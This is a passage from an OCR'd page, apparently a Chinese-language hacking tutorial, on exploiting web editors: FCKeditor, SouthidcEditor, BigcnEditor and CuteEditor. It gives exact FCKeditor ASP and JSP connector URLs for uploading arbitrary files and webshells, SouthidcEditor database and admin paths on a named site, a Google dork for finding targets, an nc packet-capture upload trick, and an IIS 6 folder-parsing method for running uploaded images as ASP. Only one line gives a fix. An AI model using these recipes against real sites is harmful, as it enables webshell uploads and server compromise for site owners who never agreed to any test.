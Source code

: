 找到uploadsave 找到地址

默认传到uploadfile这个文件夹里

(漏洞修补: 可以在iss里直接把upload文件夹的执行权限选择无. )

三:fckeditor 漏洞利用

<a>http://www.test.com/fckeditor/editor/filemanager/browser/default/connectors/asp/connector.asp</a>?

Command=FileUpload&amp;Type=Image&amp;CurrentFolder=/
就把文件名字段改成NEWfile 选择文件名可定义
上传过后在/userfiles/image/找文件

上传任意文件:

fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&amp;Connector=connectors/asp/connector.asp

根据网站所使用不同语言自己改这个地址.

FCKeditor的JSP版漏洞

<a>http://www.xxx.com/fckeditor/editor/filemanager/browser/default/connectors/jsp/connector</a>?

Command=FileUpload&amp;Type=Image&amp;CurrentFolder=%2F

<a>http://www.xxx.com/fckeditor/editor/filemanager/browser/default/connectors/jsp/connector</a>?

Command=GetFoldersAndFiles&amp;Type=Image&amp;CurrentFolder=%2F
上传shell的地址:
<a>http://www.xxx.com/fckeditor/editor/filemanager/browser/default/browser.html</a>?

Type=Image&amp;Connector=connectors/jsp/connector

四：southidceditor

1.

<a>http://www.xhkjit.com/admin/southidceditor/datas/southidceditor.mdb</a>

<a>http://www.xhkjit.com/admin/southidceditor/popup.asp</a>

<a>http://www.xhkjit.com/admin/southidceditor/admin/admin_login.asp</a>

2.southidceditor存在一个可以抓包上传的漏洞

Google:inurl:(admin/SouthidcEditor/PopUp.asp)

nc抓包自己玩玩吧.
五：bigcneditor(这个我没有找到具体的漏洞,网上的文章也都比较不负责任,谁知道的请告诉我下,谢谢)

这个页不多说了

原理都差不多！

防范方法很简单就不多讲了，

六：CuteEditor编辑器通杀漏洞

CuteEditor编辑器是.NET下最常用的一个编辑器..
十分的强大..也许是因为他太强了 HEHE ..
我们随便找到一个装有此编辑器的网站 点击插入图片 FLASH 影音文件 什么的都可以出来一个对话框.
在这个对话框里可以游览用户所上传的数据还有目录..郁闷的是居然可以新建..移动..修改..
在官网上甚至连删除都弄出来了..呵呵.. 我们这次主要是利用2003服务器的特性来进行利用..
大家都知道在2003的IIS环境下 如果你建一个 XXX.asp 文件夹的话 里面不管放什么其他类型的文件
在IIS里都会通过文件夹名的类型来解析 也就是说你传一个JPG的东西到 XXX.ASP下也会以ASP脚本
来进行解析..我们这里就利用他这一特性...首先我们随便找一个编辑器 然后选择插入图片吧(如图1)..插入其他的
东西都行..只要能新建文件目录..或者可以移动目录..
